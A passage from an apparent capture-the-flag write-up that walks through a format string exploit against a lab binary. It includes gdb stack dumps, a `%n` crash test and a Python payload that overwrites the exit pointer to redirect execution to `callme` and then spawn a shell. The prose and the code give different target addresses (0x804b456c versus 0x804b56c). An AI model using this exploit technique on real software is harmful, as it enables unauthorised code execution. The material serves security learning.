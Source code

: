 {% endhighlight %}

First I examined the stack just before the call to the second printf
in `echo`, looking for the buffer and taking note on its position.
This time it's a bit further ahead than the previous level, makes
sense since the buffer is local to another function.

Our buffer is the 14th dword from the top of the stack.

~~~
(gdb) x/16x $esp
0xbfc95530:	0x08049fc8	0x00000001	0xbfc95568	0xbfc95568
0xbfc95540:	0xbfc95569	0xbfc95968	0xbfc95988	0x08049acf
0xbfc95550:	0xbfc95568	0x0000000a	0xb76f65a0	0x00177d7c
0xbfc95560:	0x00177d7c	0x000000f0	0x41414141	0x42424242
~~~

We can confirm this by writing `AAAA%14$n`, and watch as the program
crashes.

~~~
Program received signal SIGSEGV, Segmentation fault.
0xb75c0f00 in _IO_vfprintf_internal (s=Cannot access memory at address 0x0)
...
(gdb) x/i $eip
=> 0xb75c0f00 <_IO_vfprintf_internal+11728>:	mov    %edx,(%eax)
(gdb) i r edx eax
edx            0x4	4
eax            0x41414141	1094795585
~~~

Now that we know how to write stuff, we should briefly cover what to
write where.

Our goal here is to redirect execution into `callme` (located @
`0x8049940`)

It's possible for us to call the exit function if we send the string
quit, and if we overwrite the address that points to exit
(`0x804b456c`) with the address of `callme`, we're done.

We put all the pieces together in a small exploit, at the end of the
exploits are some commands to send into our given shell.

{% highlight python %}
from time import sleep
import struct

pack = lambda dword: struct.pack("I", dword)

payload = ''.join([
    pack(0x804b56c),
    pack(0x804b56c+1),
    pack(0x804b56c+2),
    pack(0x804b56c+3),
    "A"*(0x40-0x10),
    "%14$n", 
    "B"*(0x99-0x40),
    "%15$n",
    "C"*(0x104-0x99),
    "%16$n",
    "D"*(0x108-0x104),
    "%17$n"
])

print payload

sleep(1)

print('quit')
print('id ; exit')
